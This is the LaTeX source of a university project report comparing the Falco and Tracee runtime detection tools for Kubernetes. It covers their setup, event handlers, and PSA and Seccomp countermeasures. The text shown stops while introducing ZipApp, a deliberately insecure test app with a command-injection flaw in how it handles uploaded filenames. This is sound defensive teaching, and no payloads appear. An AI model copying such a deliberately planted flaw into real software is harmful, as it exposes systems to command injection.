\documentclass[11pt]{article}

% ==========================
% ESSENTIAL PACKAGES
% ==========================
\usepackage[utf8]{inputenc}  % Character encoding
\usepackage[T1]{fontenc}     % Font encoding
\usepackage[english]{babel}  % Document language
\usepackage{csquotes}        % Support for quotations

% ==========================
% FORMATTING & STRUCTURE PACKAGES
% ==========================
\usepackage[dvipsnames]{xcolor} % Advanced colors
\usepackage{graphicx}           % Image handling
\usepackage{subcaption}         % Subcaptions for images
\usepackage{fancyhdr}           % Custom headers & footers
\usepackage{vmargin}            % Custom margins
\usepackage{hyperref}           % Clickable links
\usepackage{booktabs}           % Professional tables
\usepackage{amsmath}            % Math symbols & equations
\usepackage{wrapfig}            % Wrapping text around figures
\usepackage{soul}               % Underlining and highlighting
\usepackage{float}              % Better float positioning
\usepackage{tcolorbox}          % Colored boxes for highlights
\usepackage{verbatim}           % Multi-line comments
\usepackage{cclicenses}
\usepackage{titlesec}
\usepackage{enumitem}
\usepackage{url}
\usepackage[acronym,shortcuts]{glossaries}
\usepackage{enumitem}

\newcommand{\sectionbreak}{\clearpage}
\titleformat{\section}[block]{\huge\bfseries}{\thesection.}{1em}{}
\setlength{\parskip}{0.7em}
\setlist{itemsep=0.2em, topsep=0.2em}

% ==========================
% BIBLIOGRAPHY CONFIGURATION
% ==========================
\usepackage{biblatex}  % Bibliography management
\addbibresource{biblio.bib}  % Reference to the .bib file

% ==========================
% TABLE OF CONTENTS & SECTION DEPTH
% ==========================
\setcounter{tocdepth}{5}  % Depth of table of contents
\setcounter{secnumdepth}{2}  % Depth of numbered sections

% ==========================
% MARGINS CONFIGURATION
% ==========================
\setmarginsrb{2.5cm}{2.5cm}{2.5cm}{2.5cm}{1cm}{1.5cm}{1cm}{1.5cm}
\graphicspath{{./images/}}

% ==========================
% TITLE PAGE CONFIGURATION
% ==========================
\newcommand{\ctitle}{Kubernetes Security: Runtime Threat Detection}
\title{\ctitle}

%Emulation of the NXP S32K3X8EVB in QEMU and Porting of FreeRTOS%
%TITOLO SOSTITUTIVO%

\author{} % Left empty as authors will be manually added below
\date{June 20, 2025}

\makeatletter
\let\thetitle\@title
\let\theauthor\@author
\let\thedate\@date
\makeatother

% ==========================
% PDF METADATA & FOOTER CONFIGURATION
% ==========================
\hypersetup{
    pdftitle={\thetitle},
    pdfsubject={},
    pdfkeywords={},
    hidelinks
}
\pagestyle{fancy}
\fancyhf{}
\fancyfoot[L]{\ccnc CC BY-NC 4.0 | Politecnico di Torino - 2024/2025}
\fancyfoot[R]{\thepage} 
\fancyhead[L]{\ctitle}

\fancypagestyle{plain}{
    \fancyhf{}
    \fancyfoot[L]{\ccnc CC BY-NC 4.0 | Politecnico di Torino - 2024/2025}
    \fancyfoot[R]{\thepage} 
    \fancyhead[L]{\ctitle}
}

\makeglossaries

\newacronym{psa}{PSA}{Pod Security Admission}

\newacronym{ebpf}{eBPF}{extended Berkeley Packet Filter}

\newacronym{cncf}{CNCF}{Cloud Native Computing Foundation}



\begin{document}

% ==========================
% TITLE PAGE
% ==========================
\begin{titlepage}
    \centering
    
\includegraphics[scale=0.4]{logoPoli.png}\\[1.0 cm]
    \textsc{\LARGE POLITECNICO DI TORINO}\\[0.2 cm]
    \textsc{\large Master’s Degree in Cybersecurity}\\[4 cm]
    {\huge \bfseries \ctitle}\\[0.2 cm]
    \rule{0.6\linewidth}{0.25 mm}\\[0.3 cm]
    \textsc{\Large NCS Project Report}\\[0.7 cm]

    \vspace{3cm} % Space before authors section

    \begin{flushleft} \large
        \textbf{Authors:}\\[0.1cm]
        Soldera Marco - s338823\\[0.1cm]
        Stella Francesca - s343411
    \end{flushleft}

    \vfill
\end{titlepage}

{\centering \Huge \textbf{License} \par}
\vspace{1cm} % Adds space between title and text
\noindent This work is licensed under a Creative Commons Attribution-NonCommercial 4.0 International License. \newline
\url{http://creativecommons.org/licenses/by-nc/4.0/}
\pagebreak

% ==========================
% ABSTRACT
% ==========================
%\include{chapters/abstract}
%\addcontentsline{toc}{section}{Abstract}
%\pagebreak

% ==========================
% TABLE OF CONTENTS
% ==========================
\include{ext_sections/preliminary}
\include{ext_sections/contributors}
\tableofcontents
\pagebreak

% ==========================
% CHAPTERS
% ==========================
\section{Introduction}
\label{sec:intro}

According to Eurostat in \cite{eurostat}, "42.5\% of EU enterprises bought cloud computing services in 2023, mostly for e-mail, storage of files and office software" and "75.3\% of those enterprises purchased sophisticated cloud services relating to security software applications, hosting enterprise’s databases or computing platform for application development, testing or deployment". These statistics are still growing nowadays. Cloud computing has changed the way organizations deploy and scale applications because of its flexibility, cost-efficiency and on demand-resources. This makes cloud computing a good choice for both startups and large enterprises.

One of the most important enablers for cloud computing is the lightweight virtualization. In particular containers share the same kernel of the host operating system, leading to faster startup, lower overhead and improved efficiency. These characteristics align with the modern development practices using cloud-native applications composed of microservices.

Kubernetes \cite{kubernetes} is nowadays a de-facto standard for container orchestration. It is very powerful in abstracting the management of containerized applications across clusters to automate deployment, scaling and networking. One of the problems emerging is that all this complexity introduces new security challenges. The use of runtime security tools can address this challenge to detect real-time attacks, notify what happened and potentially trigger an automatic or human response. In particular we focused on two open-source tools named Falco and Tracee. They can inspect system calls to determine if an attack is occurring based on an integrated set of rules or some custom ones. In particular Tracee is designed to inspect also processes based on signatures and behavioral models.

Since Falco and Tracee are only capable of logging what is happening, we need some preventive security mechanisms like \ac{psa} and Seccomp to apply countermeasures. These are built-in tools in Kubernetes. \Ac{psa} provide control on container startup, ensuring certain security characteristics of the starting pods. It can evaluate the profile and setup of an entering pod to ensure it complies with some constraints. Seccomp controls system calls during execution, permitting or denying a set of them based on the profile assigned to the deployment.

The \textbf{goals} of this project are:
% controllare
\begin{itemize}[itemsep=0.1pt, topsep=0pt]
    \item showing in action Falco and Tracee detecting possible attacks;
    \item developing tools to collect detection events for a possible automatic response;
    \item applying countermeasures using PSA and Seccomp;
    \item provide a test scenario that is vulnerable to command injection to test tools and countermeasures with a set of attacks; it contains a specific vulnerability in the \texttt{zip} command that is executed by a Python server.
\end{itemize}


\section{Tools Description and Comparison}
\label{sec:tools}

In this section, we describe the two tools we used to detect the attacks in our cluster. Both tools are open-source projects to monitor Linux systems (containers, Kubernetes clusters). They can identify suspicious, abnormal or unauthorized behaviors with deep visibility into kernel-level events occurring during container execution with a set of customizable security rules.

To do this they leverage \ac{ebpf} and system call tracing. In particular \ac{ebpf} is a technology built into the Linux kernel. It permits to run programs in the kernel securely without modifying or loading additional kernel modules. It is used in networking, observability and security (like in our case). Falco and Tracee use \ac{ebpf} probes (specific programs compiled for \ac{ebpf} and ran when events like system calls occur) to inspect if something suspicious is happening inside the kernel. These probes are high performance programs that avoid slowing down the system and run securely.


\subsection{Falco}
Falco is the first run-time tool we tested with the set of attacks we developed, which are listed later. It was originally developed by Sysdig and now maintained by the \ac{cncf}; in its early versions it was using a legacy kernel module instead of \ac{ebpf}. This is still now supported to be compatible also with older versions of the Linux kernel. The \ac{ebpf} approach enhances also the compatibility with container orchestrators and reduces performance overhead. In general it collects system calls from Linux kernel for a rule engine that detects suspicious behaviors with its set of rules. This enables detection of anomalies, intrusions, and misconfigurations. Its main application is in Kubernetes environments, inspecting containers within the cluster.

The default set of rules (listed and specified in \cite{falcoRules}) included in Falco can detect events like a spawned shell, redirection of stdin/stdout, access to the K8s API, usage of ptrace and many others. Rules can trigger a CRITICAL, WARNING, NOTICE or INFO event. The default set is classified as stable, but it can be expanded with other pre-made ones that are in "sandbox" or "incubating" state. Finally there are also some deprecated rules.

Combining all these mechanisms, Falco enables real-time threat detection without disruption. It is deployed in Kubernetes using a Daemonset. It can forward alerts in a large variety of ways from logging files to webhooks or also with a Slack message.


\subsection{Tracee}
Tracee is an open source runtime security and forensic tool developed by Aqua Security. This tool is natively based on \ac{ebpf} probes. It can be a standalone binary or installed in a Kubernetes cluster as a DaemonSet as we did in this project. This last modality is the main reason why this program has been created, to help detection of possible threats in the cluster. As Falco does, Tracee can analyze behavior of containers and hosts to log suspicious activity with minimal overhead.

In addition to \ac{ebpf}, Tracee can use tracepoints and Linux Security Modules hooks to monitor process creation, file access, network connections and privilege changes.

Once events are captured, Tracee uses an engine written in Go to interpret data. Detection can be based on signatures, Rego policies and custom Go plugins. This enables flexible rule definition based on the single situation that we are facing. Tracee also includes container-aware context enrichment, making it ideal for Kubernetes environments where workload context is essential for threat detection. The list of default Tracee events can be found at \cite{traceeRules}.

The lightweight nature of Tracee, makes it suitable for CI/CD pipelines, container runtime monitoring and post-incident forensics. By combining \ac{ebpf} telemetry with detection logic, Tracee offers a robust platform for securing Linux systems at runtime.


\subsection{Comparison between Falco and Tracee}
Both Falco and Tracee are open-source and based on \ac{ebpf} to detect events within the cluster. They have a predefined set of rules that is included in the software while other competing software don't. They both are designed for real-time threat detection in Linux systems.

Although they seem very similar for some aspects and purposes, they have also many differences. Falco adopts a rule-based approach focused on ease of use and integration. Rules can be created in YAML and they are easy to be loaded in the software. There is also the option to use an old version based on kernel modules. It is often integrated in a Kubernetes cluster using a DaemonSet and can be extended with Falco Sidekick that implements a complete notification system. Falco is event-driven and primarily used for real-time threat detection and alerting. In contrast, Tracee was designed from the beginning using \ac{ebpf} providing a developer-oriented security framework. The rules for the detection engine can be in Rego, Go plugins and signature-based. In Tracee there are also Linux Security Modules and context enrichment.

Each tool has its advantages and disadvantages, and the best choice depends on the specific use case and security requirements. Falco is a mature project and generally easier to use thanks to its YAML rule syntax. Tracee, on the other hand, is newer, enables deeper threat and forensic analysis and integration in security pipelines, but it is more complex due to its rule definition.


\section{Tools and Scenario Installation}
\label{sec:install}

After describing the tools used, we now move to the setup of what is needed to reproduce the project. All the configuration files and codes can be found in a GitHub repository\footnote{\url{https://github.com/Soldera21/k8s-detection-response}}. The requirements are the following:
\begin{itemize}
    \item \textbf{Minikube} as local environment or a \textbf{Kubernetes} cluster;
    \item \textbf{kubectl} to interact with Kubernetes;
    \item \textbf{Helm} for package management;
    \item \textbf{Docker} for building and managing container images;
    \item \textbf{virtualization engine} depending on the OS.
\end{itemize}
Installation guide of all the tools can be found at the following links: Minikube\footnote{\url{https://minikube.sigs.k8s.io/docs/start/}}, kubectl\footnote{\url{https://kubernetes.io/docs/tasks/tools/}}, Helm\footnote{\url{https://helm.sh/docs/intro/install/}}, Docker\footnote{\url{https://docs.docker.com/engine/install/}}.
We used Minikube in our local machine. Before running anything we need to start it using \texttt{minikube start}. If it is the first time running Minikube it will take longer because of image download and setup. Every time we do \texttt{minikube stop} it will pause the virtual machine of Minikube, permitting to resume it where we left. Minikube supports also multiple virtualization engines based on the host OS used like Docker, VirtualBox, VMWare, HyperV and many others.

For every tool and scenario we prepared a set of scripts included in the repository to setup, start and stop every resource needed. There should not be problems running Falco and Tracee at the same time or to mix some scenarios, but we suggest to run one scenario and one detection tool at a time to be able to get clear results.

All the scripts used to build images are made for Linux. In Windows alternative commands can be used and they are commented inside the building scripts.


\subsection{Falco}
The installation of Falco is done adding the Falcosecurity Repository. Then Helm is used to deploy the application in the cluster. The setup we used also includes Falco Sidekick to send events to an external entity. All the configuration files for Falco startup and Sidekick are in the folder \texttt{falco-conf/falco-rules}. In our case we made an event handler in Python that is able to receive JSON data through a webhook and parse it to apply some automatic countermeasures in the cluster (we labeled the deployment that triggered the alert, but actions such as scaling the deploymentnto 0 replicas can be taken). First of all we need to build the image that is in \texttt{falco-conf/falco-handler}. Then we can start also the handler pod with its related service. It requires a set of permissions on the cluster that can be found in \texttt{falco-conf/manifests/falco-handler-rbac.yaml} to find pods that are causing alerts and to edit the respective deployments. In particular we are creating a service account for the handler and we are associating it to a role with capabilities on pods and deployments of the entire cluster, regardless of the namespace. The main challenge of the handler is to extract pod, deployment and namespace name from the event. In Falco we added also a custom rule preventing alerts from the event handler that can be triggered when it uses K8s API to perform actions in the cluster. It can be found in \texttt{falco-conf/falco-rules/custom-rules.yaml}.\\
The following commands need to be run from the root folder of the project to start Falco and its handler:
\begin{enumerate}
    \item \textbf{Install and start Falco}:\\
    \texttt{bash falco-conf/falco-install.sh}
    \item \textbf{Build handler image}:\\
    \texttt{bash falco-conf/falco-handler-build.sh}
    \item \textbf{Start handler}:\\
    \texttt{bash falco-conf/falco-handler-start.sh}
\end{enumerate}
Now doing \texttt{kubectl get pods -A} we have to check that Falco, Falco Sidekick and Falco handler pods are in "Running" state.\\
This can be stopped doing:
\begin{enumerate}
    \item \textbf{Stop Falco}:\\
    \texttt{bash falco-conf/falco-remove.sh}
    \item \textbf{Stop handler}:\\
    \texttt{bash falco-conf/falco-handler-stop.sh}
\end{enumerate}


\subsection{Tracee}
To install Tracee we have to add the Aqua Security repository. Like for Falco, we deploy Tracee using Helm. After installing this tool we have to patch the DaemonSet to configure it to send events also to the webhook using the file \texttt{tracee-conf/tracee-rules/tracee-ds-patch.yaml}. All the other mechanisms are the same as those used in Falco with the event handler with permissions that is receiving events. The only difference is in the handler code because events form Tracee don't contain the pod's namespace. We need to query the cluster using \texttt{kubectl} to retrieve the namespace and then apply automatic actions. Tracee doesn't have any problem when the handler is contacting K8s API so we don't need any additional rule.\\
The following commands need to be run from the root folder of the project to start Tracee and its handler:
\begin{enumerate}
    \item \textbf{Install and start Tracee}:\\
    \texttt{bash tracee-conf/tracee-install.sh}
    \item \textbf{Build handler image}:\\
    \texttt{bash tracee-conf/tracee-handler-build.sh}
    \item \textbf{Start handler}:\\
    \texttt{bash tracee-conf/tracee-handler-start.sh}
\end{enumerate}
Now doing \texttt{kubectl get pods -A} we have to check that Tracee, Tracee operator and Tracee handler pods are in "Running" state.\\
This can be stopped doing:
\begin{enumerate}
    \item \textbf{Stop Tracee}:\\
    \texttt{bash tracee-conf/tracee-remove.sh}
    \item \textbf{Stop handler}:\\
    \texttt{bash tracee-conf/tracee-handler-stop.sh}
\end{enumerate}


\subsection{Scenario: ZipApp}
We implemented a web application called \textbf{ZipApp} in order to simulate realistic attack scenarios and test our runtime threat detection tools. The script used was inspired by a challenge originally developed for CyberChallenge, which was adapted to suit the goals of our project.\\
This web application is intentionally insecure and its key vulnerability is its improper handling of uploaded file names and paths. Specifically, it does not validate or sanitize user-supplied filenames when serving files for download in zipped form.

The image is built with all the necessary tools installed inside and the script of the server. To launch build for Minikube environment we use:

\texttt{bash scenario/zipapp-build-images.sh}

\noindent This will build images for every scenario we will present later. In particular we will discuss about the particular vulnerability exploited, the attacks performed and the possible countermeasures in the next sections. A basic and vulnerable version can be started using:

\texttt{bash scenario/zipapp-normal-start.sh}

\noindent and removed with:

\texttt{bash scenario/zipapp-nor-sec-remove.sh}

When the application deployment is started with its service, we can copy the URL provided by Minikube and connect to the website using a browser. What we can see is shown in \autoref{fig:login} and we can login with whatever credentials (no verification, only for example purpose).

\begin{figure}[H]
    \centering
    \fbox{
\includegraphics[width=0.70\linewidth]{images/login.png}}
    \caption{Login Screen of the Example WebApp}
    \label{fig:login}
\end{figure}

After logging we have another screen shown in \autoref{fig:nofiles} where we can upload a new zip to add files to the pool of the current logged user. All these data is saved inside \texttt{/tmp} folder and every user has a token that names a folder associated.

\begin{figure}[H]
    \centering
